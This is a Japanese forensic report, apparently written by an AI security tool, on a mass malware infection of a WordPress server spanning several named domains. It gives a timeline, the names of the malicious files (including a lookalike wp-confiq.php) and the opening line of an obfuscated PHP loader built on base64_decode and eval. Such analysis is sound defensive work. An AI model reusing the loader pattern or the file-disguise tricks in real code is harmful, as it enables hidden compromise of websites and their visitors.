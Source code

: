 # マルウェア感染フォレンジック分析レポート
**日付**: 2025年9月13日
**対象サーバー**: sv504.xbiz.ne.jp (egao-salon)
**分析実行者**: Claude Code Security Analysis

## 概要
egao-salonサーバー（sv504.xbiz.ne.jp）に対する大規模マルウェア感染攻撃の詳細分析。複数ドメインにわたる23+個の悪性PHPファイルが展開され、WordPressコアファイルの改ざんが実行された。

## 攻撃タイムライン

### 段階1: 初期感染活動
- **01:39:33** - 最初の感染活動開始（WordPressログより）
- **14:21:04** - プラグイン改ざん活動（Duplicate Postプラグイン）

### 段階2: 大規模展開フェーズ
- **16:51:52** - **メイン攻撃実行時刻**
  - 23+個の悪性PHPファイルが同時作成
  - 複数ドメインに同時展開：
    - egao-salon.jp
    - 678photo.com
    - sugamo-navi.com
    - careerpath-finder.com
    - san-developer.com

### 段階3: ペイロード配置
- **16:52:00** - wp-content/uploads/wp/ディレクトリに170KBの悪性ファイル配置
  - `MMxzerVr.php` (170KB) - メインペイロード

## 発見されたマルウェアパターン

### 1. wp-confiq.php系統
**ファイル名**: `wp-confiq.php` (正規のwp-config.phpの名前を模倣)
**場所**: 複数ドメインのpublic_htmlディレクトリ直下
**特徴**:
- 設定ファイルを装った悪性コード
- WordPressの設定情報を盗取する可能性

### 2. base64エンコード系統
**主要ファイル**: `/wp-includes/revisions.php`
**特徴**:
```php
<?php ini_set('memory_limit','-1');$a="ba";$b="xjcWQ7IGZVS2";$c="s";$d="xjcWQ7IGZVS2";
```
- メモリ制限解除
- base64_decode + eval による動的実行
- 大容量ペイロード（通常数KB〜数十KB）
